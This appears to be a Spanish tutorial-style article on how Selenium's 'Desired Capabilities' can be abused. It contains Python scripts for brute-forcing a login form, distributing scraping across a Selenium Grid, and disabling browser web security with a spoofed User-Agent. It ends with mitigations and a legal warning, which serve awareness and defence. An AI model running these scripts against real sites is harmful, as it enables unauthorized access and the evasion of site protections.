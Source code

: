 El uso de "Desired Capabilities" en Selenium WebDriver tiene fines legítimos, como la automatización de pruebas de software. Sin embargo, un atacante malintencionado podría tratar de usar estas capacidades para realizar actividades que comprometan la seguridad o privacidad de los sistemas. Aquí se presentan algunas formas en que un hacker podría intentar explotar estas capacidades, con ejemplos desde la teoría hasta prácticas comunes de hacking:

### **Teoría: Uso Potencial para Actividades Maliciosas**

Las "Desired Capabilities" permiten configurar entornos de prueba de forma personalizada, pero estas mismas capacidades pueden ser manipuladas para:
1. **Automatizar la navegación en sitios web con fines maliciosos.**
2. **Evitar medidas de seguridad de los navegadores, como la aceptación de certificados inseguros.**
3. **Configurar entornos en máquinas remotas para automatizar ataques distribuidos.**
4. **Manipular encabezados de red y configuraciones del navegador para evitar detección.**

### **Ejemplo Práctico 1: Automatización de Ataques de Fuerza Bruta**

Un hacker podría usar Selenium para automatizar intentos de fuerza bruta en una página de inicio de sesión. Utilizando "Desired Capabilities", podría configurar el entorno para evitar bloqueos por certificados inseguros o cambiar el "User-Agent" para eludir algunas protecciones del servidor.

```python
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

# Configurar Desired Capabilities para Chrome
capabilities = DesiredCapabilities.CHROME.copy()
capabilities['acceptInsecureCerts'] = True  # Aceptar certificados inseguros
capabilities['goog:chromeOptions'] = {
    'args': ['--headless', '--disable-gpu', '--no-sandbox']
}

# Iniciar el WebDriver con las capacidades deseadas
driver = webdriver.Chrome(desired_capabilities=capabilities)

# Lista de combinaciones de usuario y contraseña para el ataque de fuerza bruta
usuarios = ["admin", "user", "guest"]
contrasenas = ["1234", "password", "admin"]

# URL del sitio objetivo
url_objetivo = 'https://ejemplo.com/login'

# Intentar diferentes combinaciones de usuario y contraseña
for usuario in usuarios:
    for contrasena in contrasenas:
        # Navegar a la página de inicio de sesión
        driver.get(url_objetivo)
        
        # Encontrar los campos de entrada y el botón de inicio de sesión
        driver.find_element_by_name('username').send_keys(usuario)
        driver.find_element_by_name('password').send_keys(contrasena)
        driver.find_element_by_name('login').click()
        
        # Verificar si el inicio de sesión fue exitoso
        if "Bienvenido" in driver.page_source:
            print(f"Inicio de sesión exitoso con {usuario}:{contrasena}")
            break

# Cerrar el navegador
driver.quit()
```

### **Ejemplo Práctico 2: Uso de Selenium Grid para Ataques Distribuidos**

Selenium Grid puede utilizarse para distribuir la carga de ataques automatizados entre múltiples máquinas. Un atacante podría usar esto para automatizar ataques de web scraping o ataques de denegación de servicio (DDoS) en sitios web.

```python
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

# URL del Selenium Grid
selenium_grid_url = "http://198.0.0.1:4444/wd/hub"

# Configuración de capacidades para distribuir ataques entre Firefox y Chrome
navegadores = [
    DesiredCapabilities.FIREFOX.copy(),
    DesiredCapabilities.CHROME.copy()
]

# URL del objetivo para el scraping masivo
url_objetivo = 'https://ejemplo.com/data'

# Ejecutar el ataque en cada navegador
for capabilities in navegadores:
    # Conectar al Selenium Grid
    driver = webdriver.Remote(
        command_executor=selenium_grid_url,
        desired_capabilities=capabilities
    )
    
    # Automatizar el scraping del contenido
    driver.get(url_objetivo)
    contenido = driver.page_source
    print(f"Contenido extraído en {capabilities['browserName']}: {contenido[:100]}...")
    
    # Cerrar el navegador
    driver.quit()
```

### **Ejemplo Práctico 3: Manipulación de Configuraciones del Navegador para Evadir Seguridad**

Los "Desired Capabilities" también pueden usarse para modificar la configuración del navegador de modo que este actúe de una forma no convencional, lo que podría facilitar la evasión de medidas de seguridad. Por ejemplo, se pueden deshabilitar las protecciones contra ventanas emergentes o cambiar el "User-Agent" para evitar ser detectado por sistemas de seguridad web.

```python
from selenium import webdriver
from selenium.webdriver.common.desired_capabilities import DesiredCapabilities

# Configuración de Desired Capabilities para Chrome
capabilities = DesiredCapabilities.CHROME.copy()
capabilities['acceptInsecureCerts'] = True
capabilities['goog:chromeOptions'] = {
    'args': [
        '--headless',  # Ejecutar en modo sin interfaz gráfica
        '--disable-popup-blocking',  # Deshabilitar bloqueo de ventanas emergentes
        '--disable-web-security',  # Deshabilitar la seguridad web (CORS)
        '--user-agent=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'
    ]
}

# Iniciar el WebDriver con las capacidades deseadas
driver = webdriver.Chrome(desired_capabilities=capabilities)

# Intentar acceder a un sitio con restricciones de seguridad
driver.get('https://ejemplo.com/restringido')

# Extraer contenido de la página
contenido = driver.page_source
print(f"Contenido extraído: {contenido[:100]}...")

# Cerrar el navegador
driver.quit()
```

### **Conclusiones**

El uso de "Desired Capabilities" en Selenium tiene propósitos legítimos, pero puede ser manipulado para actividades maliciosas. Es importante que los desarrolladores y profesionales de seguridad sean conscientes de estas posibilidades para implementar medidas que mitiguen estos riesgos, tales como el uso de CAPTCHAs, la detección de automatización, la monitorización de IP y la validación de encabezados HTTP.

### **Advertencia**

Los ejemplos aquí proporcionados son para fines educativos y para comprender cómo funcionan las "Desired Capabilities" en Selenium. El uso de estas técnicas para realizar actividades ilegales o no autorizadas puede ser considerado un delito y tener consecuencias legales. Siempre asegúrate de cumplir con las leyes y regulaciones aplicables y de obtener el permiso adecuado antes de realizar pruebas en cualquier sistema.